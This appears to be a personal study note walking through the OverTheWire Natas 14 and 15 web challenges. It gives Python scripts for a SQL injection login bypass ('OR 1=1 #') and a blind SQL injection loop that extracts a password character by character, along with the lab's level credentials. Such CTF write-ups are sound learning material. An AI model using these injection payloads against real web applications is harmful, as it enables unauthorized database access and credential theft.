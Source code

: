
2024-07-18 20:49

Source:  #natas #web #py 

Tags: [[Injection]]
## Natas 14  ->  Basic SQL injection 

```python
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15  ->  Blind SQL Injection 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive
- we loop through all the characters for every position of the password [[BlindSQL]]

```python
import requests
import string
characters = string.ascii_letters + "0123456789"  

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()  #initialze the empty seen password list

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))
        
        #example. if `hWs%` returns as user exists then the password starts with `hWs....` 

        content = response.text   #crucial step to log the response.text in a variable as we will further check the "user exists" string and determine if the character is a part of the password or not 
        
        if "user exists" in content:
            seen.append(ch)
            break #break out of the for loop and start again 
```

### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12
